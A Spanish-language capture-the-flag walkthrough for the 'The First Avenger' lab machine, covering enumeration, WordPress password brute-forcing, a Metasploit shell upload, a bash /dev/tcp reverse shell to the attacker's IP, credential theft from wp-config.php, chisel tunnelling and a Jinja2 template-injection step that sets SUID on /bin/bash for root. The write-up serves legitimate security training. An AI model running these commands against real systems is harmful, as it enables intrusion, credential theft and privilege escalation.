


# Resolución de Máquina The First Avenger de TheHackersLabs

## Web

URL: https://thehackerslabs.com/thefirstavenger/


## Reconocimiento

### IP de máquina víctima

Después de prender tu máquina víctima, se muestra la IP


O puedes averiguarlo desde tu máquina atacante con
```bash
sudo arp-scan -l
```
para escanear la red local e identificar todos los dispositivos conectados a ella.


Visualizamos la IP 10.0.2.32 de la máquina víctima

### Comprobar comunicación

Verificamos si tenemos comunicación con la máquina víctima
```bash
ping -c1 10.0.2.32 
```


Y vemos que sí tenemos comunicación

### Creación de espacio de trabajo (opcional)

Esto es a criterio de cada uno. En mi caso particular:
1. Creo una carpeta con el nombre de la máquina víctima
2. Creo una carpeta dentro con el IP de máquina víctima


## Enumeración

### Escaneo de puertos

```bash
nmap -sSCV -p- 10.0.2.32 -oN scan --min-rate 5000 -n -Pn
```
-sS: Realiza un escaneo SYN que es rápido y sigiloso porque no completa la conexión TCP.
-sC: Ejecuta los scripts NSE (Nmap Scripting Engine) predeterminados para detectar vulnerabilidades comunes.
-sV: Detecta versiones de servicios que están en ejecución en los puertos abiertos.
-p-: Escanea todos los puertos (del 1 al 65535) y asegura que ningún puerto quede sin escanear.
10.0.2.32: Dirección IP del objetivo.
-oN scan: Guarda la salida en formato normal en un archivo llamado scan.
--min-rate 5000: Establece una tasa mínima de 5000 paquetes por segundo para acelerar el escaneo.
-n: Acelerar el escaneo al evitar la resolución de nombres de dominio.
-Pn: Trata todos los hosts como activos y omite el paso de ping.



Podemos ver los puertos 22(ssh) y 80(http) abiertos.

Damos un vistazo rápidamente al puerto 80 con whatweb


Vemos que hay una web corriendo sobre apache, así que la visitamos en el navegador


Revisamos su código fuente


Podemos verificar que no hay información relevante.

### Fuzzing de directorios
Por esto usamos gobuster de la siguiente manera
```bash
gobuster dir -u 10.0.2.32 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,txt
```
dir: Utiliza gobuster para descubrir directorios en el servidor web.
-u 10.0.2.32: Establece la URL objetivo a escanear.
-w: Usa el archivo de lista de palabras especificado para realizar el escaneo de directorios.
-t 200: Establece 200 hilos para el escaneo concurrente, lo que acelera el proceso.
-x php,txt: Agrega extensiones php y txt a los directorios buscados, lo que ayuda a descubrir archivos con esas extensiones.


Hemos encontrado un directorio interesante, llamado wp1 así que ingresaremos a él por el navegador y usamos la herramienta wappalyzer del navegador para ver información adicional de ella.


Vemos que estamos tratando con una web WordPress versión 6.6.2. Es una versión muy reciente.

Revisamos también el código fuente


Vemos que existe un redireccionamiento a thefirstavenger.thl, así que lo colocamos en /etc/hosts de la siguiente manera

```bash
sudo nano /etc/hosts
```


Y lo ingresamos en la url, ahora con ese host


Ahora iremos a 10.0.2.32/wp1/wp-admin que es una dirección clásica de WordPress para realizar login, y probamos las credenciales por defecto, user:admin y password:admin


Si bien no fue la password correcta, el mensaje de error nos indica que sí existe el usuario admin

## Explotación

### Fuerza bruta con Wpscan

WPScan nos sirve para realizar un escaneo de vulnerabilidades en un sitio web de WordPress. En este caso lo usaremos para realizar fuerza bruta al login conociendo el user y tratando de averiguar el password.

```bash
wpscan --url http://10.0.2.32/wp1/ -U admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

--url http://10.0.2.32/wp1/: Especifica la URL del sitio web de WordPress objetivo para el escaneo.

-U admin: Define el nombre de usuario como admin para intentar ataques de fuerza bruta.

-P: Utiliza la lista de passwords especificada para realizar el ataque de fuerza bruta, probando las passwords en el archivo contra el usuario admin.


Hemos obtenido la password del usuario admin: spongebob

### Uso de Metasploit para obtener shell

Aprovechando que tenemos forma de iniciar sesión en wordpress, usaremos metasploit para obtener una shell

```bash
use exploit/unix/webapp/wp_admin_shell_upload/
set USERNAME admin
set PASSWORD spongebob
set targeturi /wp1
set rhosts 10.0.2.32
exploit
```


Hemos obtenido una sesión, pero de esta forma será difícil manejar comando, así que generaremos una revershell a nuestra terminal fuera de metasploit

En nuestra máquina atacante escuchamos por el puerto 1234:
```bash
nc -lvnp 1234
```


En nuestra máquina víctima:

```bash
shell
script /dev/null -c bash
bash -i >& /dev/tcp/10.0.2.15/1234 0>&1
```

Este ultimo comando se puede generar en https://www.revshells.com/


Ahora que tenemos la sesión fuera de metasploit, realizamos un tratamiento de shell con los siguiente comandos
```bash
script /dev/null -c bash
CRTL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 19 columns 138
```

Y ahora sí podemos movernos con mayor libertad por la máquina víctima, y podemos usar CTRL+C, CTRL+Z, CTRL+L, flechas, etc. sin que nos aparezcan caracteres extraños.

### Archivo etc/passwd

Revisaremos que users existen en la máquina víctima
```bash
cat /etc/passwd | grep /bin/bash
```


Podemos observar que existen los users steve y root

### Archivos de configuración WordPress

Ahora revisaremos uno de los archivos más comunes de wordpress llamado wp-config.php

```bash
cat /var/www/html/wp1/wp-config.php
```


Notamos algunas credenciales para la base de datos que está corriendo localmente en la máquina víctima.

### Base de datos MySQL

En esto punto nos logueamos usando mysql con las credenciales obtenidas

```bash
mysql -u wordpress -p
```
Nos solicitará la password, así que la ingresamos. Luego exploramos las bases de datos, tablas y contenido de tablas.

```bash
show databases;
```


```bash
use top_secret;
show tables;
select * from avengers;
```

Entre todos los avengers, el que más nos interesa es steve, ya que coincide con el user que encontramos en la máquina víctima. Pero nos damos cuenta que el password se encuentra hasheada en MD5. Así que usaremos la herramienta online CrackStation https://crackstation.net/ para pasarla a texto plano.


Entonces el password es: thecaptain

### Conexión por SSH

Ingresamos por ssh con las credenciales encontradas
```bash
ssh steve@10.0.2.32
```


Y una vez dentro encontramos la flag user.txt


Ahora buscaremos algunos servicios que se estén corriendo localmente en la máquina víctima, que por ser locales no se podrían visualizar con el escaneo de nmap inicial que hicimos

```bash
ss -tuln
```


Y el servicio que llama la atención es el que se está ejecutando en el puerto 7092, porque el puerto 3306 es de MySQL que ya exploramos y el 33060 no parece ser una web, mientras que la 7092 sí, esto lo comprobamos mediante curl.


### Port Forwarding con Chisel

Descargaremo chisel de https://github.com/jpillora/chisel/releases


Descomprimiremos su contenido y lo llevaremos a nuestro espacio de trabajo y también a la máquina víctima mediante python, en ambos casos le damos permisos de ejecución.

Máquina atacante
```bash
chmod +x chisel
python3 -m http.server 80
```


Maquina víctima
```bash
wget http://10.0.2.15/chisel
chmod +x chisel
```


Y realizaremos el port forwarding, para visualizar la web local de la máquina víctima (puerto 7092) desde el navegador de nuestra máquina atacante en el puerto 7092 o el que le especifiquemos.

Maquina víctima
```bash
./chisel server -p 9090
```


Máquina atacante
```bash
./chisel client 10.0.2.32:9090 127.0.0.1:7092
```


Ahora podemos abrir nuestro navegador y explorar la web que la máquina víctima en el puerto 7092


Tenemos visibilidad. 

### Escalamiento de Privilegios

Ahora estamos viendo un web que basicamento ejecuta el comando ping, lo comprobamos ingresando una IP.


Vemos que responde al comando, entonces aquí tenemos una vulnerabilidad de SSTI que podemos aprovechar

#### Búsqueda de Template Engine

Usaremos el recurso siguiente 
https://cheatsheet.hackmanit.de/template-injection-table/ para ver con qué template Engine se está ejecutando el comando ping y sabiendo esto buscaremos un payload en https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection adecuado para ese Template Injection

Entonces la dinámica es la siguiente, se colocan los comandos ubicados en la parte superior la tabla de Templates en nuestra web y lo que resulte se busca en el dropdown y se selecciona, esto filtrara los resultados, hasta que te indique con alguna precisión solo un Template Engine en el mejor de los casos.


Entonces llegamos a la conclusión que el Template Engine es Jinja2. Entonces buscaremos un payload adecuado en la web PayloadsAllTheThings mencianada anteriormente, en la sección Jinja2 - Remote Code Execution por supuesto.



Lo probamos en nuestra web


Y nos ha ejecutado el comando esperado, es decir, id. Entonces cambiamos id por chmod u+s /bin/bash para establecer el bit SUID en el archivo /bin/bash. Esto significa que cuando se ejecute /bin/bash, se ejecutará con los privilegios del propietario del archivo, que es normalmente el usuario root.


A primera vista no se ve ningún resultado, pero ejecutaremos desde nuestra sesión activa el siguiente comando

```bash
bash -p
```

 Esto permitirá que la shell se ejecute con los privilegios del usuario root, ya que bash cuenta con el bit SUID.


Verificamos que ya somos root y y buscaremos la segunda flag


Con esto hemos acabado

Happy Hacking!!!

---p4ntr0x---
